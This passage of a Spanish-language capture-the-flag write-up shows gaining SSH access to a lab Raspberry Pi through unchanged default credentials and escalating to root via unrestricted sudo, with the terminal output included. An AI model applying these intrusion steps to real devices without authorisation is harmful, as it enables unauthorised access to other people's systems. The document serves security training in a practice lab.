 Al intentar acceder, verificamos que debido a una mala configuración, las credenciales no habían sido modificados, con lo cual conseguimos ganar acceso al sistema y visualizar la flag de **user.txt**.

```bash
❯ ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~$ cat Desktop/user.txt 
ff8377074***********************
```

## Privilege Escalation

### Abusing sudoers privilege

Verificamos los privilegios `sudoers` que dispone el usuario`pi`. Logramos comprobar que podemos convertirnos en usuario `root` proporcionado las credenciales del usuario actual.

Al intentar visualizar la flag de **root.txt**, se nos muestra un mensaje indicando que ha perdido el archivo `root.txt` original, y que probablemente disponga de una copia de seguridad del archivo en el `USB`.

```bash
pi@raspberrypi:~$ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~$ sudo su
root@raspberrypi:/home/pi$ cd /root/
root@raspberrypi:~$ ls -l
total 4
-rw-r--r-- 1 root root 76 Aug 14  2017 root.txt
root@raspberrypi:~$ cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```
